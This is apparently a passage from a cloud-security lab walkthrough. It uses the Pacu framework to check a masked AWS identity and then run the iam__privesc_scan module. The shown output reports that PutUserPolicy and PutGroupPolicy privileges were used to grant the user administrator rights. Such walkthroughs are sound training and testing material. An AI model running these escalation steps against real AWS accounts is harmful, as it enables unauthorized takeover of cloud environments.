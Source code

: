 Check yuour current Pacu identity:  

```sh
whoami
```  

```json
{
  "UserName": null,
  "RoleName": null,
  "Arn": null,
  "AccountId": null,
  "UserId": null,
  "Roles": null,
  "Groups": null,
  "Policies": null,
  "AccessKeyId": "AK************",
  "SecretAccessKey": "vB***********************************",
  "SessionToken": null,
  "KeyAlias": "vulnerable",
  "PermissionsConfirmed": null,
  "Permissions": {
    "Allow": {},
    "Deny": {}
  }
}
```  

list all available pacu commands with `ls`.  
You want to check for IAM Privilege escalation paths:  
```sh
help iam__privesc_scan
```  

Execute the `run iam__privesc_scan` command to scan for permission misconfigurations in the environment and see what privilege escalation vectors might be available.  
Select "y" when prompted to run the module `iam__enum_permissions`.  

Output:  
```console
[iam__privesc_scan] Escalation methods for current user:
[iam__privesc_scan]   CONFIRMED: PutGroupPolicy
[iam__privesc_scan]   CONFIRMED: PutUserPolicy
[iam__privesc_scan] Attempting confirmed privilege escalation methods...

[iam__privesc_scan] Trying to add an administrator policy to the current user...

[iam__privesc_scan]   Successfully added an inline policy named hdnby1gqhk! You should now have administrator permissions.


[iam__privesc_scan] iam__privesc_scan completed.

[iam__privesc_scan] MODULE SUMMARY:

  Privilege escalation was successful
```   
